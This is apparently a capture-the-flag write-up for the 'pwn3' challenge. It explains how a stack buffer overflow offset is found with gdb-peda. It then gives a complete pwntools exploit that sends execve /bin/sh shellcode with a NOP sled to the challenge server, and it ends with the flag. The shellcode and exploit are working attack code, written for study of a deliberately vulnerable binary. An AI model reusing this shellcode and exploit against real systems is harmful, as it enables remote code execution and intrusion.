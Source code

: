 # pwn3

![](./pwn3_brief.png)

Running ```checksec``` on the binary shows us the NX isn't enabled. This means the challenge could involve some shellcode.

```diff
[*] './pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
-    Stack:    No canary found
-    NX:       NX disabled
+    PIE:      PIE enabled
```

When running the binary we get the message:

```
Take this, you might need it on your journey 0xffb26e1e!
```

This value changes with every execution. This leads me to believe this address of the start of the buffer. This will allow us exact execution of our entered shellcode.

To find the length of the vulnerable buffer we will use gdb's ```pattern``` functionality.

```
gdb-peda$ pattern create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA
5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAW
AAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A
%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%
SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAsAsAsEAs
aAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
```

This creates a cyclic string that can be used to find the location of the overflow. 
Using the created string above as input we can use the error message pointer to find the offset.

```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x25416825 in ?? ()
```

Then putting the address into ```pattern offset``` we can find the vuln buffer length

```
gdb-peda$ pattern offset 0x25416825 
625043493 found at offset: 302
```

We can use the address returned by the message to overflow the return pointer to reach our shellcode entered into the buffer.

The exploit code used is below: 

```python
from pwn import *
import re

BUFFER_LEN = 302 
NOP = b"\x90"

def gen_shellcode(ret_address):
   
    ## Shellcode to spawn a shell
    shellcode = b""
    shellcode += b"\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46"
    shellcode += b"\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
    shellcode += b"\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

    shellcode_length = len(shellcode)

    output = b""
    for i in range(BUFFER_LEN - shellcode_length):
        output += NOP

    output += shellcode
    output += ret_address
    
    return output

r = remote("pwn.tamuctf.com", 4323)

r.recvuntil("journey ")

# Reads the address from the stream
address = (r.read()[:10]).decode("utf-8")
return_adress = p32(int(address, 16))

payload = gen_shellcode(return_adress)

r.sendline(payload)

# Gets our flag
r.interactive()
r.close()
```

The ``NOP`` is used as a nop slide. A nop will perform no operation and move onto the next instruction. This allows us to make sure we hit our shellcode.

Running this gives us a shell. Running ```cat flag.txt``` gives us a flag.

```
FLAG: gigem{r3m073_fl46_3x3cu710n}
```